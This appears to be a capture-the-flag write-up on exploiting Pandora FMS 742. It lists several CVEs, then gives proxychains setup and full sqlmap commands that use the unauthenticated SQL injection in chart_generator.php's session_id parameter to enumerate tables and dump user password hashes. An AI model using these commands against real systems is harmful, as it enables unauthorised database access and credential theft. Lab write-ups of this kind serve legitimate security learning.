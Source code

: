 -   SQL Injection (pre authentication) (CVE-2021-32099)
-   Phar deserialization (pre authentication) (CVE-2021-32098)
-   Remote File Inclusion (lowest privileged user) (CVE-2021-32100)
-   Cross-Site Request Forgery (CSRF)


A SQL injection vulnerability in the pandora_console component of Artica Pandora FMS 742 allows an unauthenticated attacker to upgrade his unprivileged session via the ``/include/chart_generator.php``  session_id parameter, leading to a login bypass.

[This post](https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained) specifically shows us that the `chart_generator.php` file's `session_id` parameter is vulnerable. I want to use `sqlmap` for this, so I will need to use a great tool called `proxychains`. [**Proxychains**](https://github.com/haad/proxychains) was designed to create a chain of proxies that allow you to pivot your tools into systems without having to install tools on the other side of whatever you are pivoting into. To use proxychains, you need to specify the dynamic tunnel to pivot through via the `/etc/proxychains4.conf` file.

#### code-editing proxychain4
```bash
vi  /etc/proxychains.conf
```

#### ouput

![[proxy.png]]

After setting that up, we can run a sqli attack against the chart generator file. 

#### code-dumping tables
```bash
proxychains sqlmap -u "http://127.0.0.1:9000/pandora_console/include/chart_generator.php?session_id=1" --batch --dbms=mysql -D pandora -T tsessions_php -C id_session,data  --tables
```

#### ouput

![[tables.png]]

The table i was  interested in is the `tpassword_history` and `tsessions_php`  tables

#### code-dumping tpassword
```bash
proxychains sqlmap -u "http://127.0.0.1:9000/pandora_console/include/chart_generator.php?session_id=1" --batch --dbms=mysql -D pandora -T tpassword_history -C id_pass,id_user,data_end,password,data_begin --dump
```

#### ouput

![[dump1.png]]

![[dump2.png]]

After dumping that, we get the `password hashes` for `matt `and `daniel`. Just looking at the hashes, I can already tell they are md5
